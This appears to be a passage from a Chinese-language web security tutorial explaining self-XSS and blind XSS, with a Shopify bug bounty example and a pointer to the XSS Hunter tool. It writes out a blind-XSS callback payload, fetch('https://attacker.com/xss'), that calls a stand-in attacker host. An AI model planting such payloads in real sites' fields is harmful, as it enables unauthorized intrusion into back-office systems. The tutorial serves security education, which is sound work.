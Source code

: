 Self-XSS 其實有兩種解釋，第一種是「自己攻擊自己」，例如說你打開網頁的開發者工具，然後自己貼上 JavaScript 程式碼，就是一種 self-xss。有些網站會特別警告你不要這樣做，像是 Facebook：

![](pics/03-02.png)

第二種解釋是「只能攻擊到自己的 XSS」，通常也被稱為 self-XSS。

我們前面所提的 XSS 都是攻擊別人用的，因為別人看得到你的 payload，但有些時候只有自己看得到。

舉一個例子好了，假設現在是電話號碼的欄位有 XSS 漏洞，但問題是電話號碼屬於個人隱私資料，所以只有在你自己的設定頁面看得到，別人是看不到的。像這種狀況就是 self-XSS，只有你自己打開設定頁面時看得到 `alert()` 的彈出視窗。

雖然看起來沒什麼用，但跟其他漏洞串接之後，有可能別人就看得到了。

## Blind XSS

Blind XSS 的意思就是「XSS 在你看不到的地方以及不知道的時間點被執行了」。

照樣舉個例子，假設現在有個電商平台，你測試過後發現每個欄位都沒有問題，沒有找到 XSS 的漏洞。但是呢，其實電商自己有個內部的後台，可以看到所有訂單資料，而這個後台是有漏洞的，忘了對姓名做編碼，因此可以用姓名這個欄位來執行 XSS。

以這種情況來說，我們一般在測試的時候是不會知道的，因為我沒有存取後台的權限，甚至也不知道後台的存在。想要測試這種狀況的話，就需要把 XSS payload 的內容從 `alert()` 改成一個會傳送封包的 payload，例如說 `fetch('https://attacker.com/xss')`，這樣子當 XSS 在看不見的地方觸發時，就可以從 server 觀察到。

有一些現成的服務如 [XSS Hunter](https://github.com/mandatoryprogrammer/xsshunter-express) 就提供了一個平台讓你更方便去觀察 XSS 有沒有被觸發，有觸發的話會回傳觸發的 URL 以及畫面上其他的東西等等。

講到實際案例的話，rioncool22 在 2020 年時向 Shopify 回報了一個漏洞：[Blind Stored XSS Via Staff Name](https://hackerone.com/reports/948929)，他在 Shopify 的商家後台新增了一名員工，並且在姓名的欄位插入了 XSS payload，雖然在 Shopify 商家後台沒有觸發，但是在 Shopify 自己的內部後台卻觸發了，最後拿到了 3000 塊美金的賞金。

## 小結

這篇是針對 XSS 的基本介紹，主要著重在 XSS 可能造成的影響以及成因，也順便介紹了 self-XSS 與 blind XSS 這兩個分類。

這還只是 XSS 的開端而已，下一篇我們會繼續往下探索，看到更多 XSS 不同的樣貌。

在進入到下一篇之前，大家可以先想想看如果你找到一個注入點是 `innerHTML = data`，你會用什麼 payload 去觸發 XSS？

